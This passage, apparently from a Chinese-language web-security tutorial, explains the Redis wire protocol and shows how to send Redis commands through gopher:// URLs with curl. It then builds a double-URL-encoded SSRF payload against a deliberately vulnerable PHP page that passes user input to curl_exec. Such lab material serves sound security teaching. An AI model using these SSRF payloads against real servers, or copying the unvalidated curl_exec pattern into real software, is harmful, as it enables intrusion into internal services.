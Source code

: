 3. 经过上面内容的讲解，在回过头理解抓到的redis的包就很容易明白了。
```
上面非常多的内容就不放了
*2 数组长度为2
$3 bulk string，代表字符串长度为3，就是get
get 普通字符
$1 bulk string，代表字符串长度为1，就是a
a 普通字符
-1 返回内容，-1代表null
```
明白以上内容后基本就理清了思路，如果要给redis发命令，按照他的序列化规则即可。现在有一个大胆的想法，如果我用gopher去执行redis的命令呢？为了实现我们的想法，我们在Redis中加一个key，名字为name，值为Margin。命令如下：
```
set name Margin
```
此时，我们使用curl来发起gopher的请求，如下：
```bash
curl gopher://192.168.0.119:6379/_*2
$3
get
$4
name
```
将其转化为url编码
```bash
curl gopher://192.168.0.119:6379/_%2a%32%0d%0a%24%33%0d%0a%67%65%74%0d%0a%24%34%0d%0a%6e%61%6d%65%0d%0a
```
执行结果如下
```bash
margine:~ margin$ curl gopher://192.168.0.119:6379/_%2a%32%0d%0a%24%33%0d%0a%67%65%74%0d%0a%24%34%0d%0a%6e%61%6d%65%0d%0a
$6
Margin
```
那如果是在web漏洞中呢？如何利用？经过 **Gopher协议在SSRF漏洞中的深入研究** 的内容可以很容易的联想到使用方法：
```
1、构造利用代码
2、url转码
3、再次url转码
```
web环境我们还是使用上一节课的代码（curl_exec.php），代码如下：
```php
<?php
$url = $_GET['url'];
echo $url;
#var_dump(curl_version());
$curlobj = curl_init($url);
echo curl_exec($curlobj);
?>
```
最终构造利用代码为：
```http
http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher%3a%2f%2f192.168.0.119%3a6379%2f_%25%32%61%25%33%32%25%30%64%25%30%61%25%32%34%25%33%33%25%30%64%25%30%61%25%36%37%25%36%35%25%37%34%25%30%64%25%30%61%25%32%34%25%33%34%25%30%64%25%30%61%25%36%65%25%36%31%25%36%64%25%36%35%25%30%64%25%30%61
```
但使用curl请求后一直卡顿，没有任何回显，无比绝望，我的排查思路为下：
```
1、查看web日志，是否有错误日志（发现并没有）
2、在执行curl_exe函数前，加上exit()函数，这样我便能判断http请求是否到后台代码了（结果可以）
3、查看redis的命令执行记录（接下来讲这个）
```
在Linux命令行中执行以下命令来查看Redis命令执行记录：
```bash
redis-cli -h 127.0.0.1  monitor
```